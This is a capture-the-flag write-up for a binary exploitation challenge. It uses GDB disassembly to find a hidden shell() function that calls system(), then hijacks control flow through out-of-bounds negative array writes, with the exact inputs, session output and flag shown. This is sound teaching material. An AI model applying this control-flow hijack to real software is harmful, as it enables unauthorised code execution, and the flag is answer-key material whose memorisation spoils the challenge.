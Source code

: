 # Hack Index – (Pwn / Binary Exploitation)

### Challenge Description
> *"You can edit my array, but can you hack it?"*  
Category: Pwn (Binary Exploitation)  
Tool: Kali Linux  

We are given a binary that allows editing an array at arbitrary indices. The task is to exploit this to gain access to hidden functionality.

---

### Binary Analysis
Using **GDB** to disassemble the binary revealed a hidden function:

```asm
Dump of assembler code for function shell:
   0x080491c2 <+0>:    push   %ebp
   0x080491c3 <+1>:    mov    %esp,%ebp
   0x080491c5 <+3>:    sub    $0x8,%esp
   0x080491c8 <+6>:    call   0x804933b <__x86.get_pc_thunk.ax>
   0x080491cd <+11>:   add    $0x2e22,%eax
   0x080491d2 <+16>:   sub    $0x8,%esp
   0x080491d5 <+19>:   lea    -0xff8(%eax),%edx
   0x080491db <+25>:   mov    %edx,(%esp)
   0x080491de <+28>:   call   0x8049060 <system@plt>
   0x080491e3 <+33>:   nop
   0x080491e4 <+34>:   leave  
   0x080491e5 <+35>:   ret
```
### Key observations:
There is a function named shell() that calls system().
This function is not called during normal execution.
If we can overwrite the program’s return address (or function pointer) with the address of shell(), we can execute it.

### Exploitation Approach
1. Find shell() address
From GDB: 0x080491c2
Convert to decimal for input:
>python3 -c "print(int('0x080491c2', 16))"
→ 134517186

2. Use out-of-bounds array access
The program allows writing to arbitrary indices (including negative).
This lets us overwrite saved return addresses or function pointers.

3. Exploit steps
Enter index -2 or -1 (out-of-bounds).
Overwrite with 134517186 (address of shell).
Trigger program exit to hijack execution flow.

### Execution
```bash
$ ./chall
Enter the index to write at: -2
Enter the value to write: 134517186
Current buffer: 1 2 3 4 5 6 7 8

Enter the index to write at: -1
Enter the value to write: 134517186
Current buffer: 1 2 3 4 5 6 7 8

$ run.sh
cat flag.txt
flag{klKib5Bm0czV}
```

### Final Flag
>flag{klKib5Bm0czV}

### Lessons Learned
Always check for hidden functions (like shell()) in binaries — they’re common in pwn challenges.
Array out-of-bounds writes can overwrite critical control data (return addresses, function pointers).
Knowing the address of the target function (via disassembly) allows hijacking execution flow.
